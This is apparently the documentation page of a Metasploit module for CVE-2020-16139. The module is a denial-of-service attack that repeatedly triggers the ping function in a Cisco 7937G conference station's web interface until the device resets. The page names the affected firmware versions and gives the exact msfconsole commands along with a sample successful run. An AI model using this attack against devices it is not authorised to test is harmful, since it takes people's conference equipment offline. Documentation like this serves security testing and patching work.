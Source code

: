 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.
 
### Description
 
This module exploits a bug in how the conference station handles executing a ping via it's web interface. By repeatedly executing the ping function without clearing out the resulting output, a DoS is caused that will reset the device after a few minutes. 

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cve_2020_16139`
  5. Do: `set rhost 192.168.1.10`
  6. Do: `run`
  7. The conference station should become nonresponsive and then power cycle itself.

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7
```
msf5 > use auxiliary/dos/cisco/cve_2020_16139
msf5 auxiliary(dos/cisco/cve_2020_16139) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16139) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
